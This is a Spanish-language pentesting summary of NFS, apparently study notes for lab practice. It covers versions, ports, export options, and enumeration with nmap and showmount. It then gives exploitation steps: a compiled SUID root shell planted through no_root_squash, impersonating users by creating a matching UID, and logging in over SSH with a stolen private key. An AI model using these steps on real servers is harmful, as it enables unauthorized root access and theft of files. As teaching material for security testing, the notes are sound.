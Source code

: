 # 📂 NFS – Resumen para Pentesting

**NFS (Network File System)** permite acceder a sistemas de archivos remotos como si fueran locales.  
Funciona principalmente entre **Linux y Unix** y se basa en **ONC-RPC (SUN-RPC)**.  

---

## 🔑 Versiones principales
| Versión | Características |
|---------|----------------|
| **NFSv2** | Antiguo, sobre UDP. |
| **NFSv3** | Archivos de tamaño variable, mejor reporting de errores. |
| **NFSv4** | Stateful, ACLs, Kerberos, multipath, solo puerto **2049** (más seguro). |

---

## ⚙️ Puertos y protocolos
- **111/tcp,udp → rpcbind**  
- **2049/tcp,udp → nfs**  
- Basado en **UID/GID numéricos** (no nombres de usuario).  
- Los nombres en `ls -l` se resuelven **localmente** con `/etc/passwd`.  

👉 Si el servidor no tiene un usuario para un UID concreto, se muestra solo el número.  

---

## 🔐 Autenticación y permisos
- Autenticación básica con **UID/GID UNIX**.  
- **Problema:** cliente y servidor pueden tener **mappings distintos de UID/GID**.  
- Esto permite crear en el cliente un usuario con el mismo **UID** que un usuario en el servidor y así acceder a sus ficheros.  

---

## 📌 Opciones de configuración (`/etc/exports`)
Ejemplo:
```bash
/mnt/nfs  10.129.14.0/24(rw,sync,no_subtree_check)
```

### Opciones comunes
- `rw` → lectura y escritura  
- `ro` → solo lectura  
- `sync` / `async` → transferencia segura/rápida  
- `root_squash` → UID 0 (root) se asigna a `nobody` (seguro)  
- `no_root_squash` → UID 0 se mantiene como root (inseguro)  
- `secure` / `insecure` → restringir puertos <1024 o permitir >1024  

---

## ⚠️ Configuraciones peligrosas
- **`no_root_squash`** → el root del cliente puede crear archivos como root en el servidor → subir binarios **SUID root**.  
- **UID mappings inseguros** → cualquier usuario puede suplantar a otro creando un usuario local con el mismo UID.  
- **Archivos sensibles expuestos** (`id_rsa`, `shadow`, backups).  

---

## 🔎 Enumeración de NFS
Escaneo básico:
```bash
sudo nmap -p111,2049 -sV -sC <IP>
```

Scripts NSE para NFS:
```bash
sudo nmap --script nfs* -p111,2049 <IP>
```

Listar exports:
```bash
showmount -e <IP>
```

Montar share:
```bash
mkdir target-NFS
sudo mount -t nfs <IP>:/ ./target-NFS/ -o nolock
```

Desmontar:
```bash
sudo umount ./target-NFS
```

---

## 🚩 Explotación en Pentesting

### 1️⃣ `no_root_squash`
- Montas el share como root.  
- Creas un binario SUID con root como propietario:
  ```c
  #include <unistd.h>
  int main() { setuid(0); system("/bin/bash"); }
  ```
  ```bash
  gcc rootsh.c -o rootsh
  chmod +s rootsh
  cp rootsh /mnt/nfs/
  ```
- En la víctima, ese binario será **SUID root** → ejecución como root.  

---

### 2️⃣ Suplantación de usuarios por UID
- En el NFS ves un archivo con UID 2000:
  ```
  -rw-r--r-- 1 2000 2000  123 ago 18 14:20 secret.txt
  ```
- Creas un usuario con ese UID en tu cliente:
  ```bash
  sudo useradd -u 2000 attacker2000
  sudo passwd attacker2000
  su - attacker2000
  ```
- Ahora, montando el NFS, podrás leer/escribir archivos de UID 2000.  
- Incluso puedes subir una shell SUID con ese UID → la víctima la ejecutará como ese usuario.  

---

### 3️⃣ Archivos sensibles
Si en el share aparece algo como `id_rsa`:  
```bash
chmod 600 id_rsa
ssh -i id_rsa usuario@victima
```
👉 Acceso directo vía SSH como ese usuario.  

---

## ✅ Resumen práctico
- **`root_squash` activado:** protege contra root, pero aún puedes explotar UID mappings.  
- **`no_root_squash`:** permite subir binarios SUID root → escalada total.  
- **NFS solo entiende de UID/GID**, no de nombres → podemos “fabricar” usuarios con UID específicos para acceder a ficheros que no deberíamos.  
